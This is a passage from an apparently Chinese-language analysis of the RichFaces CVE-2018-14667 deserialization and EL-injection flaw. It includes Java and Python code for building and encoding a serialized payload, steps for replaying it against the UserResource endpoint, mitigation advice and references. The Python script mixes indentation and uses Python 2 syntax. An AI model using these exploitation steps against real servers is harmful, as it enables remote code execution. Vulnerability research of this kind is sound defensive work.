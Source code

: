 ```java
Class cls = Class.forName("javax.faces.component.StateHolderSaver");
Objenesis objenesis = new ObjenesisStd(true);
Object myObj = objenesis.newInstance(cls);
```
创建好序列化对象后使用下面脚本进行编码

```python
import base64
import zlib
import binascii 

def main():
	filename='payload'
	f = open(filename, "rb")
	class_data=f.read()
	hexstr = binascii.b2a_hex(class_data)
    data=zlib.compress(class_data)
    data=base64.b64encode(data).replace("+","-").replace("/","!").replace("=","_")
	print "compress:" +data
if __name__ == '__main__':
    main()
```
将compress好的数据附在UserResource请求的/DATA/后面重放请求即可触发漏洞。

#### 总结

这个漏洞算是java反序列化与EL表达式注入合体的一个比较有意思漏洞，漏洞原理及利用思路和CVE-2015-0279也基本相似。RichFaces已经停止开发，官方对受影响的产品出了补丁，给出的修复建议是 在RichFaces中禁用EL表达式或者在反序列化白名单中限制一些类反序列化，但显然这个漏洞反序列化类也是不好限制的，如果将SerializableResource从白名单中去除可能会影响系统其它地方反序列化的正常运行。要从代码层面修复漏洞只能自己编写修复个人感觉比较快速的止血方法是对资源数据加解密的方法decrypt进行修改，当然也可以对URL中包含ajax4jsf.resource.UserResource的请求进行拦截已防止漏洞攻击。

#### 参考

* [CVE-2018-14667 - RichFaces remote code execution - Red Hat Customer Portal](https://access.redhat.com/solutions/3660371)
* [Red Hat JBoss EAP RichFaces Access Control Bug Lets Remote Users Execute Arbitrary Code on the Target System - SecurityTracker](https://securitytracker.com/id/1042037)
* [Java Reflection - Constructors](http://tutorials.jenkov.com/java-reflection/constructors.html)
* [Objenesis : Twenty Second Tutorial](http://objenesis.org/tutorial.html)
* [[RF-13977] Remote Command Injection (EL Injection) - JBoss Issue Tracker](https://issues.jboss.org/browse/RF-13977)
* [Remote Code with Expression Language Injection | Dan Amodio](http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/)
* [code white | Blog: Poor RichFaces](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)

